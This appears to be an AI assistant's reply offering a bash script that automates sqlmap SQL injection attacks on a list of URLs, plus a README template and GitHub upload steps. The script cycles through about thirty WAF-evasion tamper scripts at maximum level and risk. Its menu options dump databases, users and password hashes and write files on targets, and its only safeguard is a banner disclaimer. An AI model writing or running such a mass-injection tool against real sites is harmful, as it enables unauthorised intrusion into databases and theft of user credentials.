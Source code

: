 To make the script compatible with both Arch and Debian-based systems, we'll include checks for the package manager and installation commands. Additionally, I'll provide a README file template for GitHub.

### Updated Script:

```bash
#!/bin/bash

# Function to display a colorful banner
display_banner () {
    figlet "SQLMAP AUTOMATION" | lolcat
    echo "NoBoDY HiDe fRoM mE!" | lolcat
    echo ""
    echo "@Deepak                                                            @binwalk" | lolcat
    echo ""
    echo "WARNING!!!" | lolcat
    echo "Nobody takes responsibility for your actions. Always seek permission." | lolcat
    echo ""
}

# Array of tamper scripts
tampers=('apostrophemask' 'apostrophenullencode' 'base64encode' 'between' 'bluecoat' 'chardoubleencode' 'charencode' 'charunicodeencode' 'concat2concatws' 'equaltolike' 'greatest' 'halfversionedmorekeywords' 'ifnull2ifisnull' 'modsecurityversioned' 'modsecurityzeroversioned' 'multiplespaces' 'nonrecursivereplacement' 'percentage' 'randomcase' 'randomcomments' 'securesphere' 'space2comment' 'space2dash' 'space2hash' 'space2morehash' 'space2mssqlblank' 'space2mysqldash' 'space2plus' 'space2randomblank' 'unionalltounion' 'unmagicquotes')

# Function to perform SQL injection attacks
perform_attack () {
    local attack_type=$1
    local options=$2
    
    for tamper in "${tampers[@]}"; do
        echo "##################################" | lolcat
        echo "$tamper" | lolcat
        echo "##################################" | lolcat
        sqlmap -m "$urls" --dbms="$dbms" --level=5 --risk=3 --threads=5 --batch $options --tamper="$tamper" --alert="Vulnerability Found"
    done
}

# Function to select the type of attack to perform
select_attack () {
    select attack in "Injection-based" "File-based" "Blind-based" "Brute-based" "Time-based" "Error-based" "Out-of-band" "Bayekar" "Database Detection"; do
        case $attack in
            "Injection-based" )
                echo "(+) Injection Attacks..." | lolcat
                perform_attack "injection" "--dbs"
                break
                ;;
            "File-based" )
                echo "(+) File Based Attacks..." | lolcat
                perform_attack "file" "--dbs"
                break
                ;;
            "Blind-based" )
                echo "(+) Blind Based Attack..." | lolcat
                perform_attack "blind" "--dbms-cred"
                break
                ;;
            "Brute-based" )
                echo "(+) Brute Based Attacks..." | lolcat
                perform_attack "brute" "--users --passwords"
                break
                ;;
            "Time-based" )
                echo "(+) Time Based Attacks..." | lolcat
                perform_attack "time" "--time-sec=5 --dbs"
                break
                ;;
            "Error-based" )
                echo "(+) Error Based Attacks..." | lolcat
                perform_attack "error" "--errors"
                break
                ;;
            "Out-of-band" )
                echo "(+) Out Of Band Attacks..." | lolcat
                perform_attack "oob" "--file-write='/tmp/data.txt'"
                break
                ;;
            "Bayekar" )
                echo "(+) All attacks on a single target..." | lolcat
                echo "WARNING! This may take up to 14 hours." | lolcat
                perform_attack "bayekar" "--dbs"
                perform_attack "bayekar" "--users --passwords"
                perform_attack "bayekar" "--time-sec=5 --dbs"
                perform_attack "bayekar" "--errors"
                perform_attack "bayekar" "--file-write='/tmp/data.txt'"
                break
                ;;
            "Database Detection" )
                echo "(+) Database Detection Start..." | lolcat
                perform_attack "database" "--banner"
                continue
                ;;
            * )
                echo "Invalid selection. Please try again." | lolcat
                continue
                ;;
        esac
    done
}

# Function to install required tools
install_tools () {
    local tool="sqlmap"
    local distro=$(grep '^ID=' /etc/os-release | awk -F= '{print $2}')

    if ! command -v $tool &> /dev/null; then
        echo "$tool is not installed." | lolcat
        if [[ "$distro" == "arch" || "$distro" == "manjaro" ]]; then
            sudo pacman -Sy --noconfirm
            sudo pacman -S --noconfirm sqlmap figlet toilet lolcat
        elif [[ "$distro" == "debian" || "$distro" == "ubuntu" ]]; then
            sudo apt update -y && sudo apt install -y sqlmap figlet toilet lolcat
        else
            echo "Unsupported distribution. Please install sqlmap, figlet, toilet, and lolcat manually."
            exit 1
        fi
    else
        echo "$tool is already installed." | lolcat
    fi
}

# Function to create necessary folders
create_folders () {
    mkdir -p bugbounty/sqlmap && cd bugbounty/sqlmap || exit
}

# Main script execution
main () {
    urls=$1
    dbms=$2
    
    create_folders
    install_tools
    display_banner
    select_attack
}

# Run the main function with provided arguments
main "$@"
```

### README.md Template:

```markdown
# SQLMAP Automation Script

## Overview
This script automates various SQLMAP attacks using different tamper scripts. It is designed to work on both Arch and Debian-based systems and includes colorful output using `figlet`, `lolcat`, and `toilet`.

## Features
- Injection-based attacks
- File-based attacks
- Blind-based attacks
- Brute-based attacks
- Time-based attacks
- Error-based attacks
- Out-of-band attacks
- Database detection

## Prerequisites
- Arch-based systems: `pacman`
- Debian-based systems: `apt`
- Required tools: `sqlmap`, `figlet`, `toilet`, `lolcat`

## Installation
### For Arch-based Systems
```bash
sudo pacman -Sy --noconfirm
sudo pacman -S --noconfirm sqlmap figlet toilet lolcat
```

### For Debian-based Systems
```bash
sudo apt update -y
sudo apt install -y sqlmap figlet toilet lolcat
```

## Usage
```bash
./sqlmap_automation.sh <urls_file> <dbms>
```
- `<urls_file>`: File containing URLs to test.
- `<dbms>`: Database management system (e.g., MySQL, PostgreSQL).

## Example
```bash
./sqlmap_automation.sh urls.txt MySQL
```

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Disclaimer
This script is for educational purposes only. Use it responsibly and always seek permission before testing any systems. The author is not responsible for any misuse of this script.

## Author
Deepak aka FancybearIN

```

### Instructions for Adding to GitHub:

1. **Create a new repository** on GitHub.
2. **Clone the repository** to your local machine:
   ```bash
   git clone https://github.com/yourusername/your-repo-name.git
   ```
3. **Navigate to the repository directory**:
   ```bash
   cd your-repo-name
   ```
4. **Add the script and README file** to the repository:
   ```bash
   cp /path/to/your/sqlmap_automation.sh .
   cp /path/to/your/README.md .
   ```
5. **Commit the changes**:
   ```bash
   git add .
   git commit -m "Initial commit with script and README"
   ```
6. **Push the changes to GitHub**:
   ```bash
   git push origin main
   ```

This setup will ensure your script works on both Arch and Debian-based systems and includes a comprehensive README for GitHub. Let me know if you need any more adjustments!